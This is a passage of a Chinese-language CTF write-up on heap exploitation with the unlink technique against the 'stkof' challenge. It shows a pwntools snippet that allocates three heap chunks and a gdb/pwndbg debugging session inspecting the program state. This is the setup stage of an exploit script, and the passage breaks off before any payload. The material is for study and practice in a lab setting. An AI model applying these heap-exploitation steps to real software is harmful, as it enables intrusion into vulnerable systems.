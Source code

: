 ## 2、创建3个chunk
```python
log.info("Creating chunk1, avoid stdout's buffer.")
create(0x100) #0x100==256
p.recvuntil("OK")
time.sleep(1)

log.info("Creating chunk2...")
create(0x30)  #0x30==48
p.recvuntil("OK")
time.sleep(1)

log.info("Creating chunk3...")
create(0x80)  #0x80==128
p.recvuntil("OK")
time.sleep(1)
```

上面的代码创建了3个堆块，使用gdb调试进行malloc，然后CTRL+c进入调试模式：

```powershell
➜  unlink_data sudo gdb stkof_patch 
[sudo] password for ubuntu: 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 187 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from stkof_patch...(no debugging symbols found)...done.
pwndbg> r
Starting program: /home/ubuntu/Desktop/unlink_data/stkof_patch 
1
256
1
OK
1
48
2
OK
1
128
3
OK
^C
Program received signal SIGINT, Interrupt.
0x00007ffff7b04320 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	../sysdeps/unix/syscall-template.S: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]──────────────────────────────────
 RAX  0xfffffffffffffe00
 RBX  0x7ffff7dd18e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RCX  0x7ffff7b04320 (__read_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x400
```